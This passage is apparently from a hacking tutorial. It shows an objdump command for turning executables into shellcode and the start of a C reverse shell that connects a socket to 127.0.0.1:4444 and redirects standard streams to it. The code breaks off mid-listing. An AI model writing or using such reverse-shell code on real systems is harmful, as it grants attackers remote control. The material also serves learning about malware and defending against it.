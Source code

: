 As you can see, our reverse shell is worked! Perfect! =^..^=     

You can use `objdump` to disassemble our executables into machine code (hexadecimal byte values) and then format it into shellcode:    

```bash
objdump -M intel -d hack
```

![malware](/assets/images/163/2025-07-05_19-57.png){:class="img-responsive"}    

### practical example 3

What about reverse shell in C lang?    

The logic is pretty simple. Full source code is similar like reverse shell for [linux](/tutorial/2021/09/11/reverse-shells.html) (`hack3.c`):    

```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {
  const char* ip = "127.0.0.1";
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  int sockfd = socket(AF_INET, SOCK_STREAM, 0);
  connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    dup2(sockfd, i);
  }
```